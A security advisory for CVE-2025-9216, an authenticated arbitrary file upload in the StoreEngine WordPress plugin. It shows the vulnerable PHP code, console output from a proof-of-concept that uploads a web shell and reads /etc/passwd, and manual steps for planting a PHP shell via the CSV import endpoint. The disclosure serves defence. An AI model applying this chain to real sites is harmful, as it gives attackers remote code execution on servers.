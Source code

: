 +++
title = 'StoreEngine – Powerful WordPress eCommerce Plugin for Payments, Memberships, Affiliates, Sales & More <= 1.4.0 - Authenticated (Subscriber+) Arbitrary File Upload'
date = 2025-09-16T00:01:00+00:00
hideToc = true
+++
### CVE-2025-9216

The [StoreEngine](https://wordpress.org/plugins/storeengine/) plugin contains a vulnerability in it's CSV Import/Export feature that allows **any authenticated user** (subscriber, author, editor, etc.) to upload arbitrary files and gain remote code execution. The vulnerability stems from two security flaws: (1) the CSV import endpoint lacks proper file validation checks, permission checks, and only relies on nonce verification for security, and (2) the `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This combination allows any authenticated user to extract the nonce from frontend pages and use it to upload PHP web shells via the `storeengine_csv/import` endpoint, effectively granting subscriber+ users the ability to execute arbitrary code on the server.

## TL;DR Exploits
* A POC [CVE-2025-9216.py](https://github.com/d0n601/CVE-2025-9216/blob/master/CVE-2025-9216.pyy) is provided to demonstrate an administrator uploading a web shell named `omg.php`.
  
```console
python3 ./CVE-2025-9216.py http://localhost:1337 user1 password
Logging into: http://localhost:1337/wp-admin
NOTE: This exploit works with any authenticated user (subscriber, author, editor, etc.)
Extracting nonce from frontend scripts (accessible to any user)...
storeengine_nonce: ff15beb1bd
NOTE: This nonce is exposed to ALL frontend users, making the vulnerability exploitable by any authenticated user!
NOTE: CSV Import/Export addon must be enabled by an administrator before exploitation.
This exploit demonstrates the vulnerability once the addon is already enabled.
Uploading web shell: omg.php
File upload response: {"success":true,"data":{"filename":"omg.php"}}

Web Shell At: http://localhost:1337/wp-content/uploads/storeengine_uploads/csv/omg.php

Executing test command: cat /etc/passwd
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

```

## Details  

### **Vulnerable File Upload Function**
The `storeengine_csv/import` AJAX action calls the `import()` function on line [51](https://plugins.trac.wordpress.org/browser/storeengine/trunk/addons/csv/ajax/import.php#L51) of `/wp-content/plugins/storeengine/addons/csv/ajax/import.php`, which lacks proper permission checks and file type validation:

```php
public function import() {
    if ( ! isset( $_FILES['file'] ) ) {
        wp_send_json_error( 'No file uploaded.' );
    }

    $file   = $_FILES['file'];
    $folder = Helper::get_upload_dir() . '/csv/';

    if ( ! file_exists( $folder ) ) {
        wp_mkdir_p( $folder );
    }

    $filename = sanitize_file_name( $file['name'] );
    $target   = trailingslashit( $folder ) . $filename;

    if ( ! move_uploaded_file( $file['tmp_name'], $target ) ) {
        wp_send_json_error( 'Failed to move uploaded file.' );
    }

    wp_send_json_success( [
        'filename' => $filename,
    ] );
}
```

The function only uses `sanitize_file_name()` to clean the filename but does not perform any file type validation or capability checks. This allows uploading any file type, including PHP files that can be executed by the web server.

### **Nonce Exposure Vulnerability**
The `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This occurs in the `_get_script_data()` method on line [279](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L279) of `/wp-content/plugins/storeengine/includes/assets.php`:

```php
public function _get_script_data(): array {
    // ... other data ...
    return [
        'nonce'             => wp_create_nonce( 'wp_rest' ),
        'storeengine_nonce' => wp_create_nonce( 'storeengine_nonce' ), // Line 279 - EXPOSED TO ALL USERS
        'rest_url'          => esc_url_raw( rest_url() ),
        // ... other data ...
    ];
}
```

This nonce is then localized to frontend JavaScript via the `frontend_scripts()` method on line [120](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L120):

```php
wp_localize_script(
    'storeengine-frontend-scripts',
    'StoreEngineGlobal',
    $this->get_frontend_script_data() // Calls _get_script_data()
);
```

### **Nonce Verification**
The nonce is verified in the `AbstractRequestHandler::check_permission()` method on line [510](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/classes/abstract-request-handler.php#L510) of `/wp-content/plugins/storeengine/includes/classes/abstract-request-handler.php`:

```php
protected function check_permission( string $capability, bool $allow_visitors = false ) {
    if ( ( ! is_user_logged_in() && ! $allow_visitors ) || ( is_user_logged_in() && $capability && ! current_user_can( $capability ) ) ) {
        return new WP_Error(/* ... */);
    }
    return true;
}
```


This combination allows any authenticated user to upload arbitrary files, including PHP web shells for remote code execution.



## Manual Reproduction
1. Login to the admin panel and navigate to the StoreEngine plugin.
2. Go to the CSV Import section (if available in the admin interface).
3. Start up Burp Suite or a similar tool and begin intercepting the traffic.
4. Attempt to upload a file and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `storeengine_csv/import` action.
5. Modify the request to include an arbitrary file, in the example below we're uploading a PHP web shell.
6. Send the request and receive `{"success":true,"data":{"filename":"shell.php"}}`.
7. Browse the web shell at `https://example.com/wp-content/uploads/storeengine_uploads/csv/shell.php` and execute code.